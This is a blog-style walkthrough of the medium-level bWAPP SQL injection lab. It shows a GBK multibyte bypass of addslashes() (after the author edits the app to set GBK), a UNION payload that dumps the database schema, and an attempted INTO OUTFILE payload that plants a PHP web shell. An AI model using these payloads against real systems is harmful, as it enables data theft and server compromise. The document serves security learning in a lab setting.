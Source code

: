 ```yaml
---
title: bWAPP SQL Injection (GET /Search) Medium
author: cqawam
categories: [Web Security]
tags: [OWASP, Injection, Web security]
image: images/bwapp_sqli/sqli_bwapp0.png
---
```

The fun part about solving vulnerable labs, CTF challenges, or even bug bounties is the thrill of bypassing filters and dodging defense mechanisms. It's an eternal cat-and-mouse game, hackers chasing hackers (or sometimes, just chasing their own tails).

So, I spun up the classic **bWAPP** app with a quick `git clone` and `docker run`, and started throwing the little SQL injection knowledge I’ve got at it. The first lab? Easy peasy and honestly, there are a million writeups floating around for it.

But the real challenge, the one that nearly sent me on a wild goose chase was the **medium** level of the **bWAPP SQL Injection (GET /Search) lab**.

Naturally, I thought, “Let’s peek at the source code and see what kind of ‘defense’ we're dealing with.” And sure enough, inside `sqli_1.php`, I found this little gem that applies different filters based on the `security_level` cookie. Medium is handled by the `case "1"` branch:

```php
include("security.php");
include("security_level_check.php");
include("selections.php");
include("functions_external.php");
include("connect.php");

function sqli($data)
{
    switch($_COOKIE["security_level"])
    {
        case "0" :
            $data = no_check($data);
            break;
            
        case "1" :
            $data = sqli_check_1($data);
            break;

        case "2" :
            $data = sqli_check_2($data);
            break;
            
        default :
            $data = no_check($data);
            break;
    }

    return $data;

}
```  

Cool. Now let’s see what’s actually going on inside `sqli_check_1($data)` which lives in `functions_external.php`.

```php
function sqli_check_1($data)
{
    return addslashes($data);
}
```

Wait... addslashes()? Yep, that’s it.

So I hit up the [PHP Manual](https://www.php.net/manual/en/function.addslashes.php), and sure enough:
> The addslashes() is sometimes incorrectly used to try to prevent SQL Injection. Instead, database-specific escaping functions and/or prepared statements should be used.

Translation? This “defense” is like putting up a cardboard wall and calling it a firewall. Easily bypassable.

I started digging around and found this legendary [blog post by Chris Shiflett](https://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string) (from 2006, but still gold), explaining how `addslashes()` can be bypassed under the right conditions. A [Stack Overflow thread](https://stackoverflow.com/questions/5741187/sql-injection-that-gets-around-mysql-real-escape-string) also helped connect the dots.

Turns out, the key to the bypass is all about character encoding. Specifically, **setting the character set to GBK** can turn escaped characters into valid multi-byte sequences, sneaky stuff.

So I jumped into the app’s `connect.php` and added the following line:
```php
mysql_query("SET NAMES gbk");
```

With that in place, I wanted to confirm the character set was successfully changed to GBK. So, with the security level set to low, I ran the following payload to check:
```bash
' UNION SELECT null, @@character_set_client, @@character_set_connection, null, @@character_set_results, null FROM 
```  

![](../images/bwapp_sqli/sqli_bwapp_1.png){: width = "855" .normal}

Now that the groundwork is laid, it’s time to get busy. Here’s the payload I used:
```bash
¿' OR 1=1-- 
```
Yep, that worked. This confirms that the `addslashes()` defense can be neatly bypassed with the right encoding trick. But let’s take it up a notch.

## Dumping Database Info
At this point, I was already feeling a little smug about bypassing the filter, but why stop there? Time to poke around and see what else I could dig up.

Using the GBK trick and the flawed `addslashes()` defense still in play, I fired off this payload to see what secrets the database was hiding:
```bash
¿' UNION SELECT null, null, table_name, column_name, null, null, null FROM information_schema.columns WHERE table_schema = database()-- 
```  
Boom. Now we have the table names, and their columns, straight from the information_schema. Basically, it’s like grabbing the blueprint to the entire database.

Once you know the structure, the rest is just a matter of choosing what data to steal (uh, responsibly test... of course). It’s wild how much you can extract with just one sneaky query.  
![](../images/bwapp_sqli/sqli_bwapp_2.png){: width = "855" .normal}

I decided to push my luck and go for remote code execution by trying to drop a PHP web shell onto the server. I found this payload in the world wild web:
```bash
¿' UNION SELECT 1,'<?php echo shell_exec($_GET["cmd"]); ?>',3,4,5,6,7 INTO OUTFILE '/var/www/html/pwned.php'-- 
```
Yeah, you guessed it. This is what the backend query actually looked like after passing through `addslashes()`: 
```bash
\'<?php echo shell_exec($_GET[\"cmd\"]); ?>\'
```
And the INTO OUTFILE part? Same story:
```bash
\'/var/www/html/pwned.php\'
```
Injecting a `¿` will only make it look crappier  
As you can imagine, that backslash party ended in a nice fat error when trying to create the file.
**Maybe** `addslashes()` *did* do something after all (hahaha)...



